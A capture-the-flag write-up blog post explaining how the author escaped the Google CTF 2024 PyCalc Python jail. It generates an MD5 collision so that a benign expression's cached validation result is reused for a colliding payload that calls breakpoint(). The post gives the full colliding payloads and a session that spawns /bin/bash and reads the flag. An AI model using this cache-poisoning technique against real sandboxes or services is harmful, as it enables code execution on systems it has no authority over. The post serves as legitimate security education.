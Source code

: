 ```yaml
---
layout: post
title:  "Escaping a Python jail using an MD5 collision"
date:   2024-06-27 00:00:00 +0000
tags: ctf python
---
```


![Pycalc challenge on CTF platform](/assets/pycalc-md5-collision/pycalc.png)

I played Google CTF last weekend and there was a fun Python jail challenge, PyCalc.


Connecting to the provided host and port gives us a limited Python shell. We can evaluate basic arithmetic expressions, like so:
```bash
$~ ncat pycalc.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
Simple calculator in Python, type 'exit' to exit
> 1+1
Caching code validation result with key d96e018f51ea61e5ff2f9c349c5da67d
Waiting up to 10s for completion
2
```

Most other expressions failed to execute, with the program detailing which opcode was disallowed. For example, attempting an import or calling a function:
```bash
== proof-of-work: disabled ==
Simple calculator in Python, type 'exit' to exit
> import os
Caching code validation result with key ed9f4b8f879ddbb59fda1057ea3a2810
Instruction IMPORT_NAME is not allowed
Code validation failed
> exec()
Caching code validation result with key c501db5e49896515e6d0ad52c2283bc2
Instruction PRECALL is not allowed
Code validation failed
```

It was clear that there was a whitelist of permitted opcodes, and after searching for ways to execute arbitary code for a while, we couldn't find a method which didn't fail the validation.

One particular line of the output was interesting though:
> Caching code validation result with key d96e018f51ea61e5ff2f9c349c5da67d

The hash looks like MD5, and it sounds like the code is verifying the bytecode and then caching the result using this MD5 digest as the cache key. It's quickly apparent that this hash is simply the MD5 of our UTF-8 encoded input.
```python
hashlib.md5('1+1'.encode('utf8')).hexdigest() == 'd96e018f51ea61e5ff2f9c349c5da67d'
```

With this thesis we devised our solution: submit innocuous code which doesn't contain bad opcodes, which will be validated and then cached, then submit evil code which has the same MD5 hash, which contains bad opcodes and gets us a shell.

So how do we create two Python expressions with the same hash which do different things?

The idea is this: start both inputs with an open quote, `'`, then append arbitrary data to both such that the resulting strings have the same hash (i.e. create a collision), now add an identical suffix to both strings (which will preserve the collision) which switches control flow based on the random data within the strings, for example:
```python
'baR3SMhZPUl6zaL24n'[0] == 'b' or breakpoint()
'NzdYAKsD8AKK3z+la4'[0] == 'b' or breakpoint()
```
In the case of the first string the left-hand side of the `or` will be truthy and thus the expression will yield True. In the case of the second string the left-hand side will be falsy and therefore we will invoke `breakpoint()`, which in Python is sufficient to execute arbitrary code interactively.

In practice it was slightly more difficult as we couldn't use the equality operator, but we could use binary operators like `&`. We also couldn't use the binary operators on a string index, as that would be operating on a string, but we could use them on integers. Therefore we could instead prefix both inputs with `b'` to create bytestrings which when indexed will give an integer. We could use these integers with binary operators to yield a truthy and falsy value.

You may wonder why the bad opcodes on the right-hand side of the `or` aren't included in the compiled code regardless - this is because when this code is compiled into bytecode Python omits the right-hand side if the left-hand side can be evaluated to a truthy value at compile time. You can see that here:
```python
>>> c = compile('1 or breakpoint()', '', 'eval')
>>> list(map(lambda x: x.opname, dis.get_instructions(c)))
['RESUME', 'LOAD_CONST', 'RETURN_VALUE']
>>> c = compile('0 or breakpoint()', '', 'eval')
>>> list(map(lambda x: x.opname, dis.get_instructions(c)))
['RESUME', 'PUSH_NULL', 'LOAD_NAME', 'CALL', 'RETURN_VALUE']
```

To generate the collision I used the [`textcoll.sh`](https://github.com/cr-marcstevens/hashclash/blob/77419e170ef3b29812819510ce3e5db6fdcf26f0/scripts/textcoll.sh) script from Marc Stevens' HashClash. We modified the script slightly to increase the size of the alphabet, and remove the constraints on all but the first and second bytes (constraining them to `b'`). Generating this collision took around 30 minutes on a 128 core machine.

This resulted in two inputs:
```
# input1
b'cAWa,=tDo9lp4!tc&=A/-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg(

# input2
b'cAWa,=tDo9lp4!tc&=A3-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg(
```
Which we can see have the same MD5 hash:
```bash
$~ md5sum input*
102837a16831bc539fe06a9f21af30ad  input1
102837a16831bc539fe06a9f21af30ad  input2
$~ sha256sum input*
44ee9adeaf32bebda45eae0aa534a5574e209cd4f2b333005bbda638f3b76b2e  input1
dcaf5c2e1881d9b39c9190411dd000a52018043114c8196b4095867fdcf4a360  input2
```

Looking carefully we can see that 20th character in both bytestrings differs. In the first it is `/`, in the second it is `3`, that means we can use this index to switch the control flow.
```
b'cAWa,=tDo9lp4!tc&=A/-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg(
                     ^
                     |--- 20th character of bytestring differs
                     v
b'cAWa,=tDo9lp4!tc&=A3-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg(
```

Anding these characters with `4` results in a truthy value and a falsy value, which is exactly what we need.
```python
>>> input1[19] & 4
4
>>> input2[19] & 4
0
```

This gives us a common suffix which we can append to both payloads:
```
'[19] & 4 or breakpoint()
```
Now our final inputs look like this:
```python
b'cAWa,=tDo9lp4!tc&=A/-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg('[19] & 4 or breakpoint()
b'cAWa,=tDo9lp4!tc&=A3-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg('[19] & 4 or breakpoint()
```

Submitting the benign input followed by the evil input invokes `breakpoint()` and we can use the Python debugger to drop us into a shell, like so:
```bash
$~ ncat pycalc.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
Simple calculator in Python, type 'exit' to exit
> b'cAWa,=tDo9lp4!tc&=A/-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg('[19] & 4 or breakpoint()
Caching code validation result with key 6418545ef8b9b1daa3b5fe41d46c2cc6
Waiting up to 10s for completion
4
> b'cAWa,=tDo9lp4!tc&=A3-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg('[19] & 4 or breakpoint()
Hit code validation result cache with key 6418545ef8b9b1daa3b5fe41d46c2cc6
Waiting up to 10s for completion
--Return--
> <stdin>(1)<module>()->None
(Pdb) import os; os.system('/bin/bash')
whoami
ubuntu
/readflag
CTF{Ca$4_f0r_d3_C4cH3_Ha5hC1a5h}
```
